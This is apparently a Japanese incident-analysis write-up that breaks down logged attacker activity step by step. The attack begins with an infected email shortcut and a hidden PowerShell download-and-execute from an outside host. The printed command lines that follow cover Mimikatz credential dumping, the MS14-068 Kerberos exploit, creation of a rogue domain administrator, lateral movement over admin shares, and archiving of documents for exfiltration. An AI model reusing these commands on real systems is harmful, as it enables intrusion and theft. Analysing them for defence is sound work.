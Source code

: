 # Interview.doc.lnkの感染
メールの添付ファイルを保存し、実行した。

# dwm.exeの感染
C:\Windows\System32\cmd.exe" /c start winword /m&powershell -windowstyle hidden $c='(new-object System.Net.WebClient).D'+'ownloadFile("""http://news-landsbbc.co/upload/21.jpg                                 """, """$env:tmp\dwm.exe""")';Invoke-Expression $c&C:\Users\MAEBAS~1.GUN\AppData\Local\Temp\dwm.exe "%CD%"  

とログにあり、細分化してみると
```sh
C:\Windows\System32\cmd.exe" /c start winword /m
```
cmd.exeの呼び出したのちに
```PowerShell
powershell -windowstyle hidden $c='(new-object System.Net.WebClient).D'+'ownloadFile("""http://news-landsbbc.co/upload/21.jpg""", """$env:tmp\dwm.exe""")';Invoke-Expression $c
```
- windowstyle hidden: PowerShellウィンドウを非表示で実行。
- ファイルのダウンロード: new-object System.Net.WebClientを使用して、指定されたURLからファイル（21.jpg）をダウンロードし、$env:tmp\dwm.exeというパスに保存します。
- Invoke-Expression: ダウンロードされたスクリプトを実行します。
```PowerShell
C:\Users\MAEBAS~1.GUN\AppData\Local\Temp\dwm.exe "%CD%"
```
ここで、ダウンロードされたdwm.exeファイルを実行します。

その後dwm.exeは下記の内容を実行した。

<details><summary>詳細</summary> 
- whoami /all
  
- csvde.exe(Active Directoryのアカウント情報をcsvdeコマンドでエクスポートする)を`C:\Intel\Logs\l.txt`に保存
  
- タスクスケジューラにz.ps1、p.ps1を登録

【z.ps1（http://anews-web.co/mz.exe", "C:\Intel\Logs\mz.exeを実行）】  
【p.ps1("http://anews-web.co/rar.exe", "C:\Intel\Logs\rar.exe") >> C:\Intel\Logs\p.ps1"】  
【p.ps1("http://anews-web.co/ms14068.rar", "C:\Intel\Logs\ms14068.rar") >> C:\Intel\Logs\p.ps1"】

- Mimikatzというツールを使用して、デバッグ特権を取得し、ログオンパスワードを抽出
  
【cmd /c "C:\Intel\Logs\mz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > C:\Intel\Logs\c.txt"】

- MS14-068と呼ばれる脆弱性（Kerberosの脆弱性）を攻撃するためのエクスプロイトの実行（ms14-068.exe）
  
【cmd /c "C:\Intel\Logs\ms14068\ms14-068.exe -u maebashi.gunma@example.co.jp -s S-1-5-21-1524084746-3249201829-3114449661-1127 -d win-wfbhibe5gxz -p p@ssw0rd"】
`-u` maebashi.gunma@example.co.jp: 攻撃に使用するユーザー名を指定します。  
`-s` S-1-5-21-1524084746-3249201829-3114449661-1127: 攻撃に使用するセキュリティ識別子 (SID) を指定します。  
`-d` win-wfbhibe5gxz: ターゲットのドメインコントローラーのホスト名を指定します。  
`-p` p@ssw0rd: 攻撃に使用するパスワードを指定します。

- Mimikatzの実行、Kerberosチケットを使用情報をm.txtに保存
   
cmd /c "C:\Intel\Logs\mz.exe "kerberos::ptc TGT_maebashi.gunma@example.co.jp.ccache" exit > C:\Intel\Logs\m.txt"

- `machida.kanagawa`ユーザの追加及びドメインアドミンに追加
  
【cmd /c "net user machida.kanagawa h4ckp@ss /add /domain"】
  cmd /c "net groups "Domain Admins" machida.kanagawa /add /domain"】
  
- ネットワークドライブをマッピング
  
【cmd /c "net use j: \\192.168.16.1\c$ h4ckp@ss /user:example.co.jp\machida.kanagawa"】
/user:example.co.jp\machida.kanagawaは、ネットワーク共有にアクセスするためのユーザー名を指定  

- マッピングした端末にmz.exeを送り付けている。
   
【cmd /c "copy C:\Intel\Logs\mz.exe J:\Windows\Temp\mz.exe"】

- 細部不明
  
【cmd /c "C:\Intel\Logs\b.bat"】

- o.txtを生成して、保存している。
  
【cmd /c "type J:\Windows\Temp\o.txt"】
【cmd /c "copy J:\Windows\Temp\o.txt C:\Intel\Logs\o.txt"】

- r.txtにドキュメントデータを書き込んでいる。
  
【cmd /c "dir C:\Users\*.doc* /s /o-d > C:\Intel\Logs\r.txt"】

- machida.kanagawaを端末から削除
  
【cmd /c "net user machida.kanagawa /delete"】

- 管理共有の実行
  
【cmd /c "net use \\Win7_64JP_01\c$"】
【cmd /c "copy C:\Intel\Logs\win.exe \\Win7_64JP_01\c$\Intel\Logs\win.exe"】

- 細部不明
  
【cmd /c "C:\Intel\Logs\q.bat"】

- k.txtにドキュメントデータを書き込んでいる。
  
【cmd /c "dir \\Win7_64JP_01\c$\Users\chiyoda.tokyo.EXAMPLE\*.doc* /s /o-d > C:\Intel\Logs\k.txt"】

- 指定されたディレクトリ内の特定のファイルタイプ（.docx, .pptx, .txt, .xlsx）を、最大300MBずつ分割してアーカイブ
  
【cmd /c "C:\Intel\Logs\rar.exe a -r -ed -v300m -taistoleit C:\Intel\Logs\d.rar "\\Win7_64JP_01\c$\Users\chiyoda.tokyo.EXAMPLE\Documents" -n*.docx -n*.pptx -n*.txt -n*.xlsx"】

</details>

# 

